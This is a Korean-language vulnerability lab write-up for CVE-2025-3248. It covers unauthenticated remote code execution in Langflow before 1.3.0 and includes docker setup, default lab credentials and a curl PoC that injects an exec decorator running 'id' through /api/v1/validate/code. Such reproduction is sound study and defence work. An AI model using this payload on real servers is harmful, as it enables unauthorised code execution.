


# CVE-2025-3248            
---     

### 1. 요약        
* **Langflow** 는 에이전트 기반 AI 워크플로우를 구축할 수 있는 오픈소스 도구로, Python 기반 웹 인터페이스를 제공한다.       
* 1.3.0 버전 미만의 Langflow에는 인증 없이 발생하는 치명적인 원격 코드 실행 취약점(CVE-2025-3248)이 존재한다.         
* `/api/v1/validate/code` 엔드포인트에서 사용자로부터 제출된 Python 코드를 ast 모듈로 파싱하고, exec를 통해 함수 정의를 실행하는 과정에서 발생한다.         
* Python의 데코레이터나 기본 인자 표현식은 함수 정의 시점에 함께 실행되기 때문에, 공격자는 이 점을 이용해 악의적인 데코레이터나 기본 인자를 포함한 함수 정의를 전송함으로써 서버 사용자 권한으로 임의 코드를 실행할 수 있다.         
---               

### 2. 환경 구성 및 실행                
* `docker compose up -d` 커맨드를 입력해 테스트 환경을 실행한다.               
* 서버가 실행되면 `http://localhost:7860` 브라우저 접속할 수 있다.                
* 기본 계정 정보 **administrator:vulhub** 를 사용해 로그인할 수 있다.                    
---                          

### 3. 취약점 재현 (PoC)               
* 인증없이 `/api/v1/validate/code` 엔드포인트에 악성 Python 코드를 전송한다.           
```bash
curl -X POST http://localhost:7860/api/v1/validate/code \       
  -H "Content-Type: application/json" \        
  -d '{"code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass"}'      
```          
---                              

### 4. 결과             
---           
* Langflow 관리자 페이지 접속 화면


* PoC curl 결과 화면


### 5. 정리                                   
Langflow 1.3.0 미만 버전에서는 RCE 취약점이 존재한다. 이 취약점(CVE-2025-3248)은 인증 없이 서버에 Python 코드를 제출하고 서버가 이를 exec()로 실행하는 문제를 의미한다. 현재 PoC에서는 서버가 위험 모듈(subprocess) import를 막아 완전한 명령 실행은 실패했지만, 인증 없이 코드 실행이 가능한 상태를 확인할 수 있다.            
---     

      
(Pull-Request 주소 첨부) https://github.com/gunh0/kr-vulhub/pull/249

